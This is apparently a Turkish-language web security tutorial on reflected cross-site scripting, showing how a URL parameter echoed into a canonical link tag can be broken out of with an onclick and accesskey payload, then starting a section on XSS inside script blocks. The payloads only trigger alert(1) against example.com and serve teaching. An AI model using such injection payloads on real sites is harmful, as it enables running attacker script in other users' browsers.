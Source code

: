 ```
https://example.com/?test=zen
```

URL’ye yazılan veri doğrudan sayfa kaynağına (HTML response) yansıtılıyor:

```
<link rel="canonical" href='https://example.com/?test=zen'>
```

**Amaç:** `href` attribute'undan çıkıp yeni bir atrribute enjekte etmek.

```
?test=' onclick='alert(1)
```

Bu durumda HTML şöyle olur:

```
<link rel="canonical" href='https://example.com/?test=' onclick='alert(1)'>
```

Sorun: Bu `<link>` etiketi görünmüyor, tıklanamıyor

- Normalde bir `onclick` olayı kullanıcı tıklayınca çalışır.
- Ama `<link>` tag'ı `<head>` içinde ve görünmez, kullanıcı tıklayamaz.

Çözüm: **accesskey** kullanmak

- `accesskey`, bir HTML elementine kısayol tuşu atamanızı sağlar.
- Böylece kullanıcı görünmeyen bir elementi **klavye kısayolu ile tetikleyebilir**.
- Örnek payload:

```
?test=' accesskey='x' onclick='alert(1)
```

HTML şöyle olur:

```
<link rel="canonical" href='...' accesskey='x' onclick='alert(1)'>
```

Bu durumda tarayıcıda (örneğin Firefox’ta) **Alt + Shift + X** (ya da tarayıcıya göre değişir) yaptığınızda, `onclick` tetiklenir ve `alert(1)` çalışır.

----

## JavaScript'e XSS

XSS contex'i response içindeki mevcut bir JavaScript olduğunda, başarılı bir exploit gerçekleştirmek için farklı tekniklerin gerekli olduğu çok çeşitli durumlar ortaya çıkabilir.

#### Mevcut scriptin sonlandırılması

En basit durumda, mevcut JavaScript'i çevreleyen script tagını kapatmak ve JavaScript'in yürütülmesini tetikleyecek bazı yeni HTML tagları eklemek mümkündür. Örneğin, XSS context aşağıdaki gibi ise:

```
<script>
...
var input = 'controllable data here';
...
</script>
```

